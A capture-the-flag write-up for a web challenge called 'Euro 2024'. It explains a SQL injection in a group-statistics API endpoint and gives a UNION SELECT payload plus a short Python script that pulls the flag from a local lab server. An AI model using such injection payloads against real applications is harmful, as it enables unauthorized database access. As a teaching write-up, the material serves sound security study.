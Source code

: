 # Euro 2024
## Challenge
The challenge involves a web application that provides statistics for different groups participating in a tournament. The objective is to exploit an SQL Injection vulnerability to extract the flag.

## Solution
The provided solution uses an SQL Injection attack to retrieve the flag from the database. Below is the breakdown of the approach:

### 1. Understanding the Vulnerability
The endpoint `/api/group-stats` appears to be vulnerable to SQL Injection. The input parameter `group` is directly embedded into an SQL query without proper sanitization.

### 2. Crafting the Payload
The payload used to exploit the vulnerability is:

```sql
' UNION SELECT flag, null, null, null, null, null, null, null FROM FLAG; -- -
```

This payload:
- Breaks out of the existing query context using `' UNION SELECT`.
- Selects the `flag` column from the `FLAG` table.
- Uses `null` values to match the expected number of columns.
- Comments out the rest of the SQL query to prevent syntax errors.

## Solution
```python
#!/usr/bin/env python3
import requests
URL = 'http://localhost:8002'
PAYLOAD = "' UNION SELECT flag" + ", null" * 7 + " FROM FLAG; -- -"

r = requests.post(URL + '/api/group-stats', data={'group' : PAYLOAD})
print(r.json()['data'][0]['group_id'])```
```

## Author
**Author**: [`@ale18V`](https://github.com/ale18V/) <br>
**Date**: 2024-11-13 <br>
**Category**: Web Security
